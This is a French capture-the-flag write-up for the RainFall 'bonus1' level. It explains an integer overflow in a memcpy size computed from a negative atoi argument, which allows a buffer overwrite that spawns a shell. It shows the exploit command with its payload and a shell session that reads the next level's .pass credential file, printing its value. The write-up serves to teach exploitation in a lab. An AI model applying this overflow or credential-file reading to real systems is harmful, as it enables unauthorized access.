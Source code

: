 # Bonus 1
On ouvre le binaire avec cuter, et on y vois un `/bin/sh` on va devoir essayer de le lancer. le programme contiens deux condition imbriquer la premier check que le premier argument soit inférieur a 10, la seconde qui execute le `/bin/sh` et qui demande que le premier argument soit égale a  `0x574f4c46` (1464814662),  la seule faille présente c'est le `memcpy` en effet le premier argument va être multiplier par 4 avant d'être utiliser en tant que size de memcpy après être passer dans la premiere condition. Puisque le premier argument est passer dans un `atoi` qui créera un int, on peut peut donc luis passer un nombre négatif pour que une fois passer dans le paramètre du `memcpy` qui le mutiplira par 4 le résultat nous donne 44. Donc pour tester ca il faut tester les dépassement d'int min. On crée donc un petit code pour tester comment tout ca ce comporte :
```c
#include  <libc.h>

int  main(int  ac,  char  **av) {
	int  a  =  atoi(av[1]);
	printf("%d\n",  a);
	return  0;
}
```
ce qui nous donne : 
```
➜  bonus1 git:(master) ✗ gcc source.c && ./a.out -2147483648 
-2147483648
➜  bonus1 git:(master) ✗ gcc source.c && ./a.out -2147483649 
2147483647
```
on voit donc que une fois que l'int min est dépasser celui-ci boucle vers int max  donc il faut donc faire : 
$$res=\frac{intMin * 2}{4} - \frac{44}{4}$$
```
(4294967295 / 4) - (44 / 4) = 1073741812
```
Nous pouvons donc passer en second paramètre 40 octets suivi de la valeur à assigner à la variable (`0x574f4c46`).
ca nous donne donc : 
```
bonus1@RainFall:~$ ./bonus1 -1073741812 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```
